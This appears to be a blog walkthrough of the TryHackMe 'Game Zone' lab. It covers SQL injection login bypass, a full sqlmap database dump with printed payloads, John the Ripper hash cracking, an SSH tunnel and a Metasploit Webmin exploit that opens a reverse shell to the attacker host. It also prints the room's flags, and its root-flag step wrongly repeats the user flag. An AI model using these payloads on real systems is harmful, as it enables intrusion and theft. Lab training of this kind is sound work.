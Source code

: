 ```yaml
---
layout: post
title: THM — Game Zone
date: 2022-09-29 01:00:00 -500
categories: [TryHackMe]
tags: [SQLi, SQLMap, JohnTheRipper]
---
```


<img src="/assets/images/GameZone/logo.png" alt="GameZone Logo" width="30%">

***
<center><strong><font color="White">This room will cover SQLi (exploiting this vulnerability manually and via SQLMap), cracking a users hashed password, using SSH tunnels to reveal a hidden service and using a metasploit payload to gain root privileges.</font></strong></center>

***

## <strong><font color="#34A5DA">Nmap Scan</font></strong>

```console
vladislav@Mac ~ % nmap -sV -sC 10.10.76.150 
Starting Nmap 7.93 ( https://nmap.org ) at 2022-09-29 18:51 MSK
Nmap scan report for 10.10.76.150
Host is up (0.068s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61ea89f1d4a7dca550f76d89c3af0b03 (RSA)
|   256 b37d72461ed341b66a911516c94aa5fa (ECDSA)
|_  256 536709dcfffb3a3efbfecfd86d4127ab (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Game Zone
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.30 seconds
```

## <strong><font color="#34A5DA">Obtain access via SQLi</font></strong>

In our GameZone machine, when you attempt to login, it will take your inputted values from your username and password, then insert them directly into the query above. If the query finds data, you'll be allowed to login otherwise it will display an error message.

Here is a potential place of vulnerability, as you can input your username as another SQL query. This will take the query write, place and execute it.

Lets use what we've learnt above, to manipulate the query and login without any legitimate credentials.

If we have our username as admin and our password as: ' or 1=1 -- - it will insert this into the query and authenticate our session.

The SQL query that now gets executed on the web server is as follows:

```sql
SELECT * FROM users WHERE username = admin AND password := ' or 1=1 -- -
```

The extra SQL we inputted as our password has changed the above query to break the initial query and proceed (with the admin user) if 1==1, then comment the rest of the query to stop it breaking.

GameZone doesn't have an admin user in the database, however you can still login without knowing any credentials using the inputted password data we used in the previous question.

Use ' or 1=1 -- - as your username and leave the password blank.

However, that doesn't work. We can try changing `--` to `#`. That works!

<img src="/assets/images/GameZone/1.png" alt="GameZone Portal" width="50%">

> When you've logged in, what page do you get redirected to? `portal.php`

***

## <strong><font color="#34A5DA">Using SQLMap</font></strong>

<img src="/assets/images/GameZone/SQLMap%20Logo.png" alt="GameZone Portal" width="25%">

SQLMap is a popular open-source, automatic SQL injection and database takeover tool. There are many different types of SQL injection (boolean/time based, etc..) and SQLMap automates the whole process trying different techniques.

We're going to use SQLMap to dump the entire database for GameZone.

Using the page we logged into earlier, we're going point SQLMap to the game review search feature.

First we need to intercept a request made to the search feature using BurpSuite:

```http
POST /portal.php HTTP/1.1
Host: 10.10.76.150
Content-Length: 12
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.76.150
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.10.76.150/portal.php
Accept-Encoding: gzip, deflate
Accept-Language: ru-RU,ru;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: PHPSESSID=stf6k27hlldnk3bbi7890ohuo7
Connection: close

searchitem=a
```

Save this request into a text file (`request.txt`). We can then pass this into SQLMap to use our authenticated user session.

Then run the following:
```bash
sqlmap -r request.txt --dbms=mysql --dump
```

Parameters used:
* `-r` — uses the intercepted request we saved earlier
* `--dbms` — tells SQLMap what type of database management system it is
* `--dump` — attemps to outputs the entire database

```console
vladislav@Mac ~ % sqlmap -r request.txt --dbms=mysql --dump
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.6.9#stable}
|_ -| . ["]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 18:28:54 /2022-09-29/

[18:28:54] [INFO] parsing HTTP request from 'request.txt'
[18:28:54] [INFO] testing connection to the target URL
[18:28:54] [INFO] checking if the target is protected by some kind of WAF/IPS
[18:28:54] [INFO] testing if the target URL content is stable
[18:28:54] [INFO] target URL content is stable
[18:28:54] [INFO] testing if POST parameter 'searchitem' is dynamic
[18:28:54] [WARNING] POST parameter 'searchitem' does not appear to be dynamic
[18:28:54] [INFO] heuristic (basic) test shows that POST parameter 'searchitem' might be injectable (possible DBMS: 'MySQL')
[18:28:55] [INFO] heuristic (XSS) test shows that POST parameter 'searchitem' might be vulnerable to cross-site scripting (XSS) attacks
[18:28:55] [INFO] testing for SQL injection on POST parameter 'searchitem'
y
[18:30:27] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[18:30:27] [WARNING] reflective value(s) found and filtering out
[18:30:28] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[18:30:28] [INFO] testing 'Generic inline queries'
[18:30:28] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[18:30:33] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[18:30:33] [INFO] POST parameter 'searchitem' appears to be 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)' injectable (with --string="is")
[18:30:33] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[18:30:33] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[18:30:33] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[18:30:34] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[18:30:34] [INFO] testing 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)'
[18:30:34] [INFO] POST parameter 'searchitem' is 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)' injectable 
[18:30:34] [INFO] testing 'MySQL inline queries'
[18:30:34] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[18:30:34] [INFO] testing 'MySQL >= 5.0.12 stacked queries'
[18:30:34] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP - comment)'
[18:30:34] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP)'
[18:30:34] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK - comment)'
[18:30:34] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK)'
[18:30:34] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[18:30:45] [INFO] POST parameter 'searchitem' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[18:30:45] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[18:30:45] [INFO] testing 'MySQL UNION query (NULL) - 1 to 20 columns'
[18:30:45] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[18:30:45] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[18:30:45] [INFO] target URL appears to have 3 columns in query
[18:30:46] [INFO] POST parameter 'searchitem' is 'MySQL UNION query (NULL) - 1 to 20 columns' injectable
[18:30:46] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval
POST parameter 'searchitem' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
sqlmap identified the following injection point(s) with a total of 89 HTTP(s) requests:
---
Parameter: searchitem (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: searchitem=-6208' OR 5467=5467#

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: searchitem=a' AND GTID_SUBSET(CONCAT(0x71717a6a71,(SELECT (ELT(8617=8617,1))),0x71766b7071),8617)-- EjRl

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: searchitem=a' AND (SELECT 7610 FROM (SELECT(SLEEP(5)))yuoi)-- kJeA

    Type: UNION query
    Title: MySQL UNION query (NULL) - 3 columns
    Payload: searchitem=a' UNION ALL SELECT NULL,NULL,CONCAT(0x71717a6a71,0x6e59474c4a676d687048576b68674e72575948747041536e424470794d4269596f70684e53774e55,0x71766b7071)#
---
[18:32:05] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 16.04 or 16.10 (xenial or yakkety)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.6
[18:32:05] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[18:32:05] [INFO] fetching current database
[18:32:05] [INFO] fetching tables for database: 'db'
[18:32:05] [INFO] fetching columns for table 'post' in database 'db'
[18:32:06] [INFO] fetching entries for table 'post' in database 'db'
Database: db
Table: post
[5 entries]
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| id | name                           | description                                                                                                                                                                                            |
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| 1  | Mortal Kombat 11               | Its a rare fighting game that hits just about every note as strongly as Mortal Kombat 11 does. Everything from its methodical and deep combat.                                                         |
| 2  | Marvel Ultimate Alliance 3     | Switch owners will find plenty of content to chew through, particularly with friends, and while it may be the gaming equivalent to a Hulk Smash, that isnt to say that it isnt a rollicking good time. |
| 3  | SWBF2 2005                     | Best game ever                                                                                                                                                                                         |
| 4  | Hitman 2                       | Hitman 2 doesnt add much of note to the structure of its predecessor and thus feels more like Hitman 1.5 than a full-blown sequel. But thats not a bad thing.                                          |
| 5  | Call of Duty: Modern Warfare 2 | When you look at the total package, Call of Duty: Modern Warfare 2 is hands-down one of the best first-person shooters out there, and a truly amazing offering across any system.                      |
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+

[18:32:06] [INFO] table 'db.post' dumped to CSV file '/Users/vladislav/.local/share/sqlmap/output/10.10.76.150/dump/db/post.csv'
[18:32:06] [INFO] fetching columns for table 'users' in database 'db'
[18:32:06] [INFO] fetching entries for table 'users' in database 'db'
[18:32:06] [INFO] recognized possible password hashes in column 'pwd'
```

We got the dump of table `post`.

After that we get dump of table `users`:

```console
[18:34:29] [WARNING] no clear password(s) found                                
Database: db
Table: users
[1 entry]
+------------------------------------------------------------------+----------+
| pwd                                                              | username |
+------------------------------------------------------------------+----------+
| ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14 | agent47  |
+------------------------------------------------------------------+----------+


```

> In the users table, what is the hashed password? `ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14`

> What was the username associated with the hashed password? `agent47`

> What was the other table name? `post`

***

## <strong><font color="#34A5DA">Cracking a password with JohnTheRipper</font></strong>

<img src="/assets/images/GameZone/JtR.png" alt="JohnTheRipper Logo" width="20%">

John the Ripper (JTR) is a fast, free and open-source password cracker. This is also pre-installed on all Kali Linux machines.

We will use this program to crack the hash we obtained earlier. JohnTheRipper is 15 years old and other programs such as HashCat are one of several other cracking programs out there. 

This program works by taking a wordlist, hashing it with the specified algorithm and then comparing it to your hashed password. If both hashed passwords are the same, it means it has found it. You cannot reverse a hash, so it needs to be done by comparing hashes.

***

First save the hash as a file (`hash`). Now let's use JohnTheRipper to crack the password hash:

(John will advise formats if we run the below command without `--format=...`)

```bash
john hash --wordlist=share/wordlists/rockyou.txt --format="Raw-SHA256"
```

Parameters:
* `hash` — contains a list of our hashes (however, in our case only 1)
* `--wordlist` — is the wordlist we're using to find the dehashed value
* `--format` — is the hashing algorithm used. In our case its hashed using SHA256.

After cracking we can see the pass:
```console
vladislav@Mac ~ % john hash --show --format="Raw-SHA256"  
?:videogamer124

1 password hash cracked, 0 left
```

> What is the de-hashed password? `videogamer124`

Now, once we have username `agent47` and password `videogamer124`, we can try to SSH into the machine.

```bash
ssh agent47@10.10.76.150
videogamer124
```

> What is the user flag? `649ac17b1480ac13ef1e4fa579dac95c`

***

## <strong><font color="#34A5DA">Exposing services with reverse SSH tunnels</font></strong>

<img src="/assets/images/GameZone/reverse_ssh.png" alt="JohnTheRipper Logo" width="70%">

Reverse SSH port forwarding specifies that the given port on the remote server host is to be forwarded to the given host and port on the local side.

`-L` is a local tunnel (YOU <-- CLIENT). If a site was blocked, you can forward the traffic to a server you own and view it. For example, if imgur was blocked at work, you can do `ssh -L 9000:imgur.com:80 user@example.com`. Going to `localhost:9000` on your machine, will load imgur traffic using your other server.

`-R` is a remote tunnel (YOU --> CLIENT). You forward your traffic to the other server for others to view. Similar to the example above, but in reverse.

We will use a tool called `ss` to investigate sockets running on a host.

If we run `ss -tulpn` it will tell us what socket connections are running

```console
agent47@gamezone:~$ ss -tulpn
Netid  State      Recv-Q Send-Q                                                                             Local Address:Port                                                                                            Peer Address:Port              
udp    UNCONN     0      0                                                                                              *:10000                                                                                                      *:*                  
udp    UNCONN     0      0                                                                                              *:68                                                                                                         *:*                  
tcp    LISTEN     0      80                                                                                     127.0.0.1:3306                                                                                                       *:*                  
tcp    LISTEN     0      128                                                                                            *:10000                                                                                                      *:*                  
tcp    LISTEN     0      128                                                                                            *:22                                                                                                         *:*                  
tcp    LISTEN     0      128                                                                                           :::80                                                                                                        :::*                  
tcp    LISTEN     0      128                                                                                           :::22                                                                                                        :::*                  
```

| Argument | Description                        |
|----------|------------------------------------|
| `-t`     | Display TCP sockets                |
| `-u`     | Display UDP sockets                |
| `-l`     | Displays only listening sockets    |
| `-p`     | Shows the process using the socket |
| `-n`     | Doesn't resolve service names      |

> How many TCP sockets are running? `5`

We can see that a service running on port 10000 is blocked via a firewall rule from the outside (we can see this from the IPtable list). However, Using an SSH Tunnel we can expose the port to us (locally)!

From our local machine, run 
```bash
ssh -L 10000:localhost:10000 <username>@<ip>
```

Once complete, in your browser type `localhost:10000` and you can access the newly-exposed webserver.

<img src="/assets/images/GameZone/reverse_ssh_site.png" alt="JohnTheRipper Logo" width="100%">

> What is the name of the exposed CMS? `Webmin`

We can log into the exposed CMS with the same credentials.

> What is the CMS version? `1.580`

***

## <strong><font color="#34A5DA">Privilege Escalation with Metasploit</font></strong>

Using the CMS dashboard version, use Metasploit to find a payload to execute against the machine.

***

On [exploit-db.com](https://www.exploit-db.com) we can find an [exploit](https://www.exploit-db.com/exploits/21851).

Msfconsole:

```console
msf6 > use exploit/unix/webapp/webmin_show_cgi_exec
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set PASSWORD videogamer124
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set RHOSTS 127.0.0.1
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set USERNAME agent47
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set PAYLOAD payload/cmd/unix/reverse
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set LHOST 10.18.7.222
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set SSL false
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > exploit

[*] Started reverse TCP double handler on 10.18.7.222:4444 
[*] Attempting to login...
[+] Authentication successful
[+] Authentication successful
[*] Attempting to execute the payload...
[+] Payload executed successfully
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo KACyihBCsCfJt23r;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "KACyihBCsCfJt23r\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (10.18.7.222:4444 -> 10.10.76.150:42686) at 2022-09-29 19:31:04 +0300

whoami
root
```

Find the flag:

```bash
cd /home/agent47 
cat user.txt
```

> What is the root flag? `649ac17b1480ac13ef1e4fa579dac95c`